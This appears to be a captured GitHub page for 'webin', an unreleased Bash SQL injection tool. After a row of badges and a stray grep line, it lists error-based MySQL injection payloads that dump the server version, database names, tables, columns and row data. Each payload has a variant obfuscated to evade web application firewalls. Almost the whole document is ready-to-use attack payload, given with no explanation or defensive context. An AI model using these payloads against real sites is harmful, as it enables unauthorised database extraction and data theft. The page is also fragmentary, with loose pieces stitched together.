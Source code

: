 # webin ( not release yet )

<p align="center">
<img src="https://img.shields.io/badge/Version-1.0-purple?style=for-the-badge">
<img src="https://img.shields.io/github/license/1337r0j4n/webin?style=for-the-badge">
<img src="https://img.shields.io/github/stars/1337r0j4n/webin?style=for-the-badge">
<img src="https://img.shields.io/github/forks/1337r0j4n/webin?color=orange&style=for-the-badge">
<img src="https://img.shields.io/github/issues/1337r0j4n/webin?color=pink&style=for-the-badge">
</p>

<p align="center">
<img src="https://img.shields.io/badge/Open%20Source-Yes-darkcyan?style=for-the-badge">
<img src="https://img.shields.io/badge/Written%20In-Bash-darkblue?style=for-the-badge">
<img src="https://img.shields.io/badge/author%20-1337r0j4n-brown?style=for-the-badge">
<img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2F1337r0j4n%2Fwebin&countColor=%23263759">
</p>


| grep -oP '(?<=[&?])[^&]*'

dump_version="+OR+1+GROUP+BY+CONCAT_WS(0x3a,VERSION(),FLOOR(RAND(0)*2))+HAVING+MIN(0)+OR+1--+-"
dump_version_waf="+/*!50000%4fR/**x**/*/+1+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+/*!50000%43ONCAT_WS/**x**/*/(0x3a,/*!50000%76ersion/**x**/*/(),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))+/*!50000%48AVING/**x**/*/+MIN(0)+/*!50000%4fR/**x**/*/+1--+-"

dump_database="+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(DATABASE()+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=DATABASE()+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_database_waf="+/*!50000%41ND/**x**/*/(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%44ATABASE/**x**/*/()+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%73chema/**x**/*/=/*!50000%44ATABASE/**x**/*/()+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"

dump_table="+AND(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(table_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.TABLES+WHERE+table_schema=0x61646d696e+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_table_waf="+/*!50000%41ND/**x**/*/(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%74able_%6eame/**x**/*/+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%73chema/**x**/*/=0x7365637572697479+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"

dump_column="+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(column_name+AS+CHAR),0x7e))+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name=0x61646d696e+AND+table_schema=0x61646d696e+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_column_waf="+/*!50000%41ND/**x**/*/+(/*!50000%53ELECT/**x**/*/+1+/*!50000%46ROM/**x**/*/+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%63olumn_%6eame/**x**/*/+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000FROM/**x**/*/+/*!50000INFORMATION_SCHEMA/**x**/*/./*!50000%43OLUMNS/**x**/*/+/*!50000%57HERE/**x**/*/+/*!50000%74able_%6eame/**x**/*/=0x7573657273+/*!50000%41ND/**x**/*/+/*!50000%74able_%73chema/**x**/*/=0x7365637572697479+/*!50000%4cIMIT/**x**/*/+0,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"


dump_data="+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(admin)+AS+CHAR),0x7e))+FROM+admin.admin+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+-"
dump_data_waf="+/*!50000%41ND/**x**/*/+(/*!50000%53ELECT/**x**/*/+1+FROM+(/*!50000%53ELECT/**x**/*/+%43OUNT(*),/*!50000%43ONCAT/**x**/*/((/*!50000%53ELECT/**x**/*/(/*!50000%53ELECT/**x**/*/+/*!50000%43ONCAT/**x**/*/(%43AST(/*!50000%43ONCAT/**x**/*/(column,0x3a3a,column)+/*!50000%41S/**x**/*/+/*!50000%43HAR/**x**/*/),0x7e))+/*!50000%46ROM/**x**/*/+database.table+/*!50000%4cIMIT/**x**/*/+3,1),/*!50000%46LOOR/**x**/*/(/*!50000%52AND/**x**/*/(0)*2))x+/*!50000%46ROM/**x**/*/+/*!50000%49NFORMATION_%53CHEMA/**x**/*/./*!50000%54ABLES/**x**/*/+/*!50000%47ROUP/**x**/*/+/*!50000%42Y/**x**/*/+x)a)--+-"
